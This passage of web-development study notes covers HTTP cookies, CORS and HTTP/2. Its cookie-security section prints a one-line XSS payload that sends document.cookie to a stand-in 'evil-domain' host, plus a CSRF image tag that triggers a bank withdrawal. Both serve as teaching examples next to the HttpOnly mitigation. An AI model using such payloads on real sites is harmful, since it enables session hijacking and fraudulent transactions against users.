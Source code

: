 The **Domain** and **Path** directives define thescope of the cookie: what URLs the cookies should be sent to.
### Security
Cookies are often used in web application to identify a user and their authenticated session, so stealing a cookie can lead to hijacking the authenticated user's session. Common ways to steal cookies include Social Engineering or exploiting an XSS vulnerability in the application.
```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
The **HttpOnly** cookie attribute can help to mitigate this attack by preventing access to cookie value through JavaScript.
#### Cross-site request forgery (CSRF)
```js
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
### Tracking and privacy
**Third-party cookies**
Cookies that shares between domains. Usually used for cross-site tracking.
**Do-Not-Track**
Advise to not to transfer cookies between domain

## Cross-Origin Resource Sharing (CORS)
Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to tell a browser to let a web application running at one origin (domain) have permission to access selected resources from a server at a different origin.
![](https://mdn.mozillademos.org/files/14295/CORS_principle.png)
An example of a cross-origin request: 
*The frontend JavaScript code for a web application served from http://domain-a.com uses XMLHttpRequest to make a request for http://api.domain-b.com/data.json.*
TBD

## HTTP/2 vs HTTP/1.1
![](https://mdn.mozillademos.org/files/13825/HTTPMsg2.png)
![](https://mdn.mozillademos.org/files/13819/Binary_framing2.png)
- It is a binary protocol rather than text. It can no longer be read and created manually despite this hurdle, improved optimization techniques can now be implemented.
- It is a multiplexed protocol. Parallel requests can be handled over the same connection, removing the order and blocking constraints of the HTTP/1.x protocol.
- It allows a server to populate data in a client cache, in advance of it being required, through a mechanism called the server push.


